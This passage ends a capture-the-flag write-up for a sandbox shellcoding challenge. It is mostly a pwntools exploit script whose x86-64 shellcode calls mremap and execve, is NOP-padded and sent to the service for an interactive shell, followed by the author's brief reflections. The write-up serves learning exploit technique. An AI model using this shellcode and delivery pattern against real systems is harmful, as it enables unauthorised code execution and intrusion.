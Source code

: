 ```python
    push rdi
    mov rdi, rsp

    sub rdi, 0x50
    mov rdx, 0x1000
    mov r10, 3
    mov r8, rbx
    mov rax, 0x19
    syscall
    """

    shellcode += asm(set_var)

    win = """
    mov rdi, rbx
    add rdi, 0x50
    mov rsi, 0
    mov rdx, 0
    mov rax, 0x3b
    syscall
    """

    shellcode += asm(win)

    p = conn()

    p.recvuntil(b'shellcode: ')

    payload = shellcode.ljust(0xfd7, b'\x90')

    p.sendline(payload)
    p.interactive()

run()
```

![babysbxflag](/assets/blackhatmea/zerodaytea/babysbxflag.webp)
*flag redacted on local*

Pretty fun shellcoding challenge that I ended up making a bit more difficult than necessary. The brk + nanosleep and mremap tricks are good ones to remember for the future though!
